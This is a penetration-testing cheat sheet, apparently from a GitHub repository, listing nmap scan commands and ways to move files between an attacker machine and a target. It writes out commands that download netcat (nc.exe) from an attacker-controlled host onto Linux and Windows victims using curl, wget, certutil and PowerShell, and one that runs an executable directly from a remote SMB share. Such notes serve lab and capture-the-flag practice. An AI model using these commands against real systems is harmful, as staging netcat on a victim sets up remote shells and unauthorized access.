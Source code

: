 Using `nmap`:  
```bash
nmap -Pn -sT -sV -sC <target>
```

Remember to perform a `UDP` scan and hopefully there is something you can use!

```bash
nmap -sU --script tftp-enum -p53,69,161 <target>
```

Using `nmapAutomator`:
```bash
./nmapAutomator.sh 10.10.10.209 All
```


## File Transfers

### HTTP

To start a `HTTP` server:
```bash
sudo python3 -m http.server 80
sudo python2 -m SimpleHTTPServer 80
sudo updog -p 80
```

To download a file:
```bash
On Linux
curl http://10.0.0.1:80/nc.exe > nc.exe
wget http://10.0.0.1:80/nc.exe -O nc.exe

On Windows:
certutil -f -split -urlcache http://10.0.0.1:80/nc.exe nc.exe
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.0.0.1:80/nc.exe', 'C:\Users\root\Desktop\nc.exe')"
powershell -c "Invoke-WebRequest http://10.0.0.1:80/nc.exe -OutFile C:\Users\root\Desktop\nc.exe"
```

### SMB

To start a `SMB` server:
```bash
On Linux:
sudo smbserver.py -port 445 -smb2support share . #SMB2
sudo smbserver.py -port 445 share . #SMB1
```

To download a file:

```bash
On Windows:
copy \\10.0.0.1\share\nc.exe C:\nc.exe
\\10.0.0.1\share\whoami.exe
```
